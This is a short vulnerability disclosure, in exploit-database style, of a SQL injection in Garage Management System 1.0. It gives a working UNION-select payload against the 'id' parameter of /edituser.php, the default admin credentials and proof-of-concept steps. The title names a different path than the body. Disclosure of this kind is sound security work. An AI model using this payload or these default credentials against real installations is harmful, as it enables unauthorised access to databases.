

# Garage Management System  - Inmates/view_inmate 'id' SQL inject(SQLI)


#### Exploit Title: Garage Management System  - Inmates/view_inmate 'id' SQL inject(SQLI)
#### Exploit Author: webraybtl@webray.com.cn inc
#### Vendor Homepage: https://www.sourcecodester.com/php/15485/garage-management-system-using-phpmysql-source-code.html
#### Software Link:https://www.sourcecodester.com/download-code?nid=15485&title=Garage+Management+System+using+PHP%2FMySQL+Free+Source+Code
#### Version: Garage Management System  1.0
#### Tested on: Windows Server 2008 R2 Enterprise, Apache ,Mysql

#### Description
The reason for the SQL injection vulnerability is that the website application does not verify the validity of the data submitted by the user to the server (type, length, business parameter validity, etc.), and does not effectively filter the data input by the user with special characters , so that the user's input is directly brought into the database for execution, which exceeds the expected result of the original design of the SQL statement, resulting in a SQL injection vulnerability.Garage Management System does not filter the content correctly at the "/edituser.php" id parameter, resulting in the generation of SQL injection.

#### Payload used:
```
/edituser.php?id=-2'%20UNION%20select%2011,user(),333,444--+
```


#### Proof of Concept

1. Login the CMS. 
   Admin Default Access:
     username:admin
     Password: admin123

   

2. Open Page `http://192.168.67.9/edituser.php?id=-2'%20UNION%20select%2011,user(),333,444--+`，

   

   

   


